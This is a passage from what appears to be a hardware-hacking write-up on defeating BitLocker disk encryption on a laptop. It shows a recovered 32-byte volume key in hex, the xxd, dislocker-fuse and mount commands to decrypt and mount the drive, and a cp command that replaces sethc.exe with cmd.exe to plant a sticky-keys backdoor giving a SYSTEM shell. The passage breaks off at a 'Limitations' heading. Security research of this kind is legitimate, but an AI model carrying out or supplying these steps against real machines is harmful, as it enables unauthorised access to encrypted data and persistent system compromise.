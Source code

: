 In the buffer lies our key, it starts with ```5761``` and is 32 bytes long.

Mounting and backdooring the disk
=================================
Mounting the disk live in read/write mode (if you'd rather work offline do a disk copy with dd and then mount this copy using a loop device):
```
echo 5761A391DF1F00E1B3852828C6DDA6F9A5FEACE971A4AAAE442518F74AA7FED6E0FC | xxd -r -p > key
dislocker-fuse -K key /dev/sdd3 ./mnt/
mount ./mnt/dislocker-file ./mnt2/
```

Then the simplest backdoor is to just overwrite the sticky keys program with cmd:
```
cp ./mnt2/Windows/System32/cmd.exe ./mnt2/Windows/System32/sethc.exe
```

Place the disk back in the laptop, boot and press shift 5 times to get a SYSTEM shell:
![sethc](./BypassingBitlocker/system.jpg)

Limitations
===========
I cannot recommend using the DSLogic for this task:
